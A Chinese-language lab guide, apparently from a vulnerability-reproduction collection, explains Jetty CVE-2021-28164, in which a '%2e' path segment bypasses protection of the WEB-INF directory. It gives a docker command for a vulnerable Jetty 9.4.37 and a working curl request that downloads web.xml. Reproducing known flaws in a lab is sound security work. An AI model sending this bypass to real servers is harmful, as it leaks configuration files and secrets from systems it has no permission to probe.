


# Jetty WEB-INF 敏感信息泄露漏洞（CVE-2021-28164）

Eclipse Jetty 是一个开源的 servlet 容器，它为基于 Java 的 Web 容器提供运行环境。

Jetty 9.4.37 引入对 RFC3986 的新实现，而 URL 编码的 `.` 字符被排除在 URI 规范之外，这个行为在 RFC 中是正确的，但在 servlet 的实现中导致攻击者可以通过 `%2e` 来绕过限制，下载 WEB-INF 目录下的任意文件，导致敏感信息泄露。该漏洞在 9.4.39 中修复。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5
- https://xz.aliyun.com/t/10039

## 漏洞环境

执行如下命令启动一个 Jetty 9.4.37：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080` 可以查看到一个 example 页面。

## 漏洞复现

直接访问 `/WEB-INF/web.xml` 将会返回 404 页面：



使用 `%2e/` 来绕过限制下载 web.xml：

```
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```


